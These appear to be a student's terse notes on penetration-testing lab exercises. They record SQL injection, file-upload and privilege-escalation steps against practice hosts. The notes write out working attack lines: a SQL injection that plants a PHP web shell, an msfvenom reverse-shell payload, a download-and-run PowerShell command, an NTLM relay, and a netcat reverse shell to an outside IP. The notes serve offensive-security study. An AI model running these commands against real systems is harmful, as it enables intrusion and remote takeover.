 ### 10.3.2.4

added the ip to /etc/hosts
scanned the website using wpscan
exploited sqli using sqlmap
uploaded reverse shell using wordpress plugin
got user as www-root
flag.txt in /var/www

### 10.3.2.5

email subscribe field in home page
boolean based sqli in post request with item mail-list
write php shell to file using sql injection
mail-list=' UNION SELECT null, null, null, null,"<?php echo system($_GET['cmd']);?>", null  INTO OUTFILE "/var/www/html/web1.php" -- //
http://forestsave.lab/web1.php?cmd=cat%20../flag.txt


### 10.3.2.7
SQLi in login 
xp_cmdshell working
uploaded powershell reverse shell and got reverse connection

### 11.3.1.3

Follow the walkthrough

### 12.4.1.1

Mouseserver exploit
49601

### 12.4.1.2

CVE : CVE-2021-41773

### 12.4.1.3

all port scan using nmap 
james smtp server running use exploit 50347
change port numbers according to nmap

### 13.2.3.2

same as walkthrough of fixing web exploits
took reverse shell using bash one liner reverse shell passing in cmd param

### 13.2.3.3
directory brute force with common.txt and big.txt no results

used exploit 46481 and used any jpeg image

### 13.2.3.4

found port 20000
enumerated port further with nmap -A and nmap -sV
easy chat server running 
tried with application locally
only changed payload with stageless reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.217 LPORT=1990 -f python -b "\x00\x20" -v shellcode
fire

### 14.3.3.2

used shellter as mentioned in walkthrough

### 14.3.3.4

created a bat file to download powershell script and then execute it
since the script is in 32 bit, faced problem in executing because powershell cmd spawns 64 bit so used following
curl http://192.168.1.11:9090/exec.ps1 -o exec.ps1
%SystemRoot%\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -exec bypass .\exec.ps1
![[exec.ps1]]

### 15.3.3

same as given in walkthrough
use unc path for file upload after setting up responder
//192.168.45.230/share/ack1.php

### 15.3.4.1
same as walkthrough 
powershell encoding is tricky
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.221.212 -c "powershell -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFM

### 15.3.4.2

same as above with command injection

### 16.3.2.2

Found alex password in notes
Found enterpriseservice
placed dll in the folder with powershell one line base64 encoded, meterpreter payload was not working
got reverse connection
uploaded meterpreter exe
uploaded god potato and executed nc 
GodPotato-NET4.exe -cmd "C:\Services\nc.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.186 1234"


